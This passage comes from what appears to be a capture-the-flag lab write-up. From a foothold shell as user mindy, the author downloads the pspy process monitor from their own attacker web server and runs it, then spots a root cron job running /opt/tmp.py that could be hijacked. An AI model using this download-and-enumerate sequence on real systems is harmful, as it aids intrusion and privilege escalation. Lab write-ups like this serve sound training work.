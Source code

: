 

    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ wget 10.10.14.47/pspy32
    --2020-04-29 22:39:06--  http://10.10.14.47/pspy32
    Connecting to 10.10.14.47:80... connected.
    HTTP request sent, awaiting response... 200 OK
    Length: 2656352 (2.5M) [application/octet-stream]
    Saving to: ‘pspy32’

    pspy32                        100%[=================================================>]   2.53M  9.42MB/s    in 0.3s    

    2020-04-29 22:39:07 (9.42 MB/s) - ‘pspy32’ saved [2656352/2656352]



I see the request on the webserver:



    root@kali:/opt/pspy# ls
    pspy32  pspy32s  pspy64  pspy64s
    root@kali:/opt/pspy# python3 -m http.server 80
    Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
    10.10.10.51 - - [29/Apr/2020 22:37:02] "GET /pspy32 HTTP/1.1" 200 -



Now `chmod` and run:



    ${debian_chroot:+($debian_chroot)}mindy@solidstate:/dev/shm$ ./pspy32
    pspy - version: v1.2.0 - Commit SHA: 9c63e5d6c58f7bcdc235db663f5e3fe1c33b8855


         ██▓███    ██████  ██▓███ ▓██   ██▓
        ▓██░  ██▒▒██    ▒ ▓██░  ██▒▒██  ██▒
        ▓██░ ██▓▒░ ▓██▄   ▓██░ ██▓▒ ▒██ ██░
        ▒██▄█▓▒ ▒  ▒   ██▒▒██▄█▓▒ ▒ ░ ▐██▓░
        ▒██▒ ░  ░▒██████▒▒▒██▒ ░  ░ ░ ██▒▓░
        ▒▓▒░ ░  ░▒ ▒▓▒ ▒ ░▒▓▒░ ░  ░  ██▒▒▒
        ░▒ ░     ░ ░▒  ░ ░░▒ ░     ▓██ ░▒░
        ░░       ░  ░  ░  ░░       ▒ ▒ ░░
                       ░           ░ ░
                                   ░ ░     
    Config: Printing events (colored=true): processes=true | file-system-events=false ||| Scannning for processes every 100ms and on inotify events ||| Watching directories: [/usr /tmp /etc /home /var /opt] (recursive) | [] (non-recursive)
    Draining file system events due to startup...
    done
    2020/04/29 22:39:40 CMD: UID=0    PID=997    | /usr/sbin/cups-browsed
    ...[snip]...



Every three minutes I see:



    2020/04/29 22:42:01 CMD: UID=0    PID=1104   | /usr/sbin/CRON -f 
    2020/04/29 22:42:01 CMD: UID=0    PID=1105   | /usr/sbin/CRON -f 
    2020/04/29 22:42:01 CMD: UID=0    PID=1106   | /bin/sh -c python /opt/tmp.py 
    2020/04/29 22:42:02 CMD: UID=0    PID=1107   | python /opt/tmp.py 
    2020/04/29 22:42:02 CMD: UID=0    PID=1108   | sh -c rm -r /tmp/*
    2020/04/29 22:45:01 CMD: UID=0    PID=1150   | /usr/sbin/CRON -f 
    2020/04/29 22:45:01 CMD: UID=0    PID=1151   | /usr/sbin/CRON -f 
    2020/04/29 22:45:01 CMD: UID=0    PID=1152   | /bin/sh -c python /opt/tmp.py 
    2020/04/29 22:45:01 CMD: UID=0    PID=1153   | python /opt/tmp.py 
    2020/04/29 22:45:01 CMD: UID=0    PID=1154   | sh -c rm -r /tmp/*  
